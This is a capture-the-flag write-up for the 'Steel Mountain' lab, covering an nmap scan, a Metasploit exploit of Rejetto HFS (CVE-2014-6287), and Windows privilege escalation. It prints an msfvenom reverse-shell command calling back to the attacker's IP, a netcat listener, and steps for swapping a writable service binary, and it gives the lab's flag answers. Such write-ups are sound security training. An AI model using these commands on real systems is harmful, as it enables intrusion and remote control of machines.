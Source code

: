 # Steel Mountain

### Introduction
- Who is the employee of the month? <br />
Let's begin with a basic nmap scan: 

      nmap 10.10.66.98
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 13:41 CEST
      Nmap scan report for 10.10.66.98
      Host is up (0.044s latency).
      Not shown: 989 closed tcp ports (conn-refused)
      PORT      STATE SERVICE
      80/tcp    open  http
      135/tcp   open  msrpc
      139/tcp   open  netbios-ssn
      445/tcp   open  microsoft-ds
      3389/tcp  open  ms-wbt-server
      8080/tcp  open  http-proxy
      49152/tcp open  unknown
      49153/tcp open  unknown
      49154/tcp open  unknown
      49155/tcp open  unknown
      49156/tcp open  unknown

Since port 80 is open, let's first take a look at the website: <br />
![image](https://github.com/user-attachments/assets/1363ebde-4608-4414-91dc-a2c3777c3069) <br />
Usually the first thing I do when enumerating a web site is to look at the page source code to see if any useful info or comments has been left by developers. Indeed we can see the name of the image which gives us the answer: <br />
![image](https://github.com/user-attachments/assets/7f0f9011-186e-4402-94af-e3ad82e3a852)<br />
`Bill Harper`


### Initial Access
- Scan the machine with nmap. What is the other port running a web server on? `8080`
- Take a look at the other web server. What file server is running? <br />
![image](https://github.com/user-attachments/assets/7773fa8e-fef1-4f33-b016-20f079446688)<br />
![image](https://github.com/user-attachments/assets/d939024c-59f7-4833-b055-3bac268ff674)<br />
`Rejetto HTTP File Server`
- What is the CVE number to exploit this file server?<br />
Reaserch "HttpFileServer httpd 2.3" to get the answer: `2014-6287`
- Use Metasploit to get an initial shell. What is the user flag? <br />
Run `msfconsole` to open metasploit. Now search for an exploit that can help us: `search HttpFileServer`: <br />
![image](https://github.com/user-attachments/assets/73500e1d-9267-4369-9736-b0941b2daa5c)<br />
We're going to use this exploit, so lets set the options: `set RHOSTS 10.10.66.98` --> `set LHOST your_IP` --> `set RPORT 8080` and we have our beautiful meterpreter session: <br />
![image](https://github.com/user-attachments/assets/a8ee8d6b-a281-41d1-9782-ade94c564e0e)<br />
Now I run `search -f user.txt` to find the flag: <br />
![image](https://github.com/user-attachments/assets/1f463ae0-59e0-41c9-b1a3-48252a2b0c79)<br />
The flag is `b04763b6fcf51fcd7c13abc7db4fd365`

### Privilege Escalation
To enumerate this windows machine, we are going to use [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) which is able to detect common Windows privilege escalation vectors that rely on misconfigurations. I'm running Kali, so I already have installed by deafault at `/usr/share/wondows-resources/powersploit/Privesc/PowerUp.ps1`. 
To upload it on meterpreter, run `upload /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1` <br/> 
![image](https://github.com/user-attachments/assets/44142125-6f76-4382-856c-db6ca3a7549d)<br />
To run a powershell script, we need to open powershell. From meterpreter, run `load powershell` --> ` powershell_shell`. Now to run it: 

      PS > . .\PowerUp.ps1
      PS > Invoke-AllChecks
![image](https://github.com/user-attachments/assets/17e137cb-02fe-4101-9786-3bd1b910b1c8)<br />
The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program! <br />
So now the idea is to create a reverse shell for windows, replace this executable with our reverse shell, and restart the service to run the reverse shell. <br />
To create a reverse shell we're going to use msfvenom: `msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`. Now upload it to meterpreter using the `upload` command we used before. Now from your kali machine, open a netcat listener `nc -lnvp 4443`. Then go back to powershell and run: 

      PS > Stop-Service -Name AdvancedSystemCareService9
      PS > copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"     
      PS > Restart-Service -Name AdvancedSystemCareService9

![image](https://github.com/user-attachments/assets/0f1e3265-7c55-4b5b-94ee-51c1bbaf43fe)<br />
Now let's move to the administrator desktop to find the root flag: <br />
![image](https://github.com/user-attachments/assets/ac2a7a3e-ca2a-4b73-8136-780f66cf11ae)

    
- Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability? `AdvancedSystemCareService9`
- What is the root flag? `9af5f314f57607c00fd09803a587db80`

### Access and Escalation Without Metasploit
- What powershell -c command could we run to manually find out the service name? *Format is "powershell -c "command here"* `powershell -c "Get-Service"`
